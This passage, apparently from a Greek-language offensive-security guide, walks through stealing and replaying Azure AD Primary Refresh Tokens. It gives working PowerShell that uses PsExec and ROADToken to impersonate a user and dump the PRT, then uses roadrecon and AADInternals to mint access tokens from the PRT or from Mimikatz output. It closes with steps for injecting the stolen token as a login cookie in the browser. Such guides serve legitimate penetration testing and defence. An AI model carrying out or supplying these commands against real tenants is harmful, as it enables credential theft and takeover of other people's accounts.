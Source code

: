 ```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
Στη συνέχεια, μπορείτε να χρησιμοποιήσετε το **generated cookie** για να **generate tokens** για **login** χρησιμοποιώντας Azure AD **Graph** ή Microsoft Graph:
```powershell
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### Επίθεση - Χρήση roadrecon

### Επίθεση - Χρήση AADInternals και ενός διαρρεύσαντος PRT

`Get-AADIntUserPRTToken` **λαμβάνει το PRT token του χρήστη** από τον υπολογιστή που είναι συνδεδεμένος στο Azure AD ή Hybrid. Χρησιμοποιεί το `BrowserCore.exe` για να αποκτήσει το PRT token.
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
Ή αν έχετε τις τιμές από το Mimikatz μπορείτε επίσης να χρησιμοποιήσετε το AADInternals για να δημιουργήσετε ένα token:
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
Πηγαίνετε στο [https://login.microsoftonline.com](https://login.microsoftonline.com), καθαρίστε όλα τα cookies για το login.microsoftonline.com και εισάγετε ένα νέο cookie.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```